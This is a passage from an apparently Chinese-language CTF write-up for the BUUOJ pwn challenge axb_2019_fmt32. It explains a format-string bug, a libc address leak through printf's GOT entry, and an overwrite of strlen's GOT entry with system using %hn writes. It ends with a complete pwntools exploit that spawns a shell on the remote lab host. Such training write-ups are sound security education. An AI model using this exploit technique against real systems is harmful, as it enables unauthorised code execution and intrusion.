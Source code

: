 ```
p.sendline(payload3)
p.interactive()
```

one_gadget也可以用libc中其它偏移处的execve

# axb_2019_fmt32

很明显的格式化字符串漏洞

![image-20210417004808227](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740933.png)

Partial RELRO，考虑直接改got表，把strlen的got表值改成system的，传入'/bin/sh'

但是题目没有给后门函数，所以还要泄露libc基址，我这里从printf的真实地址入手来计算libc的基地址

![image-20210417004712782](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740335.png)

如图，我们输入的东西在栈中并不是对齐的，这和此前一个题较为相似，我们在payload最开始要加一个字母确保我们的地址落在正确的偏移处

![image-20210417170437881](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041740705.png)

写exp还有几点注意：

```
1.此前把payload1 = 'a' + p32(printf_got_addr) + b'%8$s'写成了payload1 = 'a' + p32(printf_got_addr) + b'%8$p'，结果发现输出的并不是printf的真实地址，而是printf的got表地址，还是对格式化字符串不熟悉……%8$s是把偏移量为8的地方所保存的数据作为地址，再将地址处的内容输出出来。而%8$p是把偏移量为8的地方的数据以十六进制输出出来（含0x前缀）
2.由于真实地址是一个非常大的数值，所以想要通过printf的%n去一个一个字节修改是不可能的，很慢（更何况程序还有计时）而且容易报错。应该把地址分成两部分去改，并使用格式化字符串%hn
```

exp如下：

```
from pwn import*
context(arch = 'i386', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn', 26196)
e = ELF('./pwn')
printf_got_addr = e.got['printf']
strlen_got_addr = e.got['strlen']
p.recvuntil("Please tell me:")
payload1 = 'a' + p32(printf_got_addr) + b'%8$s'
p.sendline(payload1)
printf_true_addr = u32(p.recvuntil("\xf7")[-4:])
print(hex(printf_true_addr))
libc = ELF('./libc-2.23.so')
libc_base_addr = printf_true_addr - libc.symbols['printf']
system_true_addr = libc_base_addr + libc.symbols['system']
p.recvuntil("Please tell me:")
#"Repeater:" 9characters
system_high_addr = (system_true_addr >> 16) & 0xffff
system_low_addr = system_true_addr & 0xffff
print("system_low_addr:" + hex(system_low_addr))
print("system_high_addr:" + hex(system_high_addr))
payload2 = 'a' + p32(strlen_got_addr) + p32(strlen_got_addr + 2) + '%' + str(system_low_addr - 18) + 'c%8$hn' + '%' + str(system_high_addr - system_low_addr) + 'c%9$hn'
print("length:" + str(len(payload2)))
p.sendline(payload2)
p.recvuntil("Please tell me:")
p.sendline(';/bin/sh')
p.interactive()
```
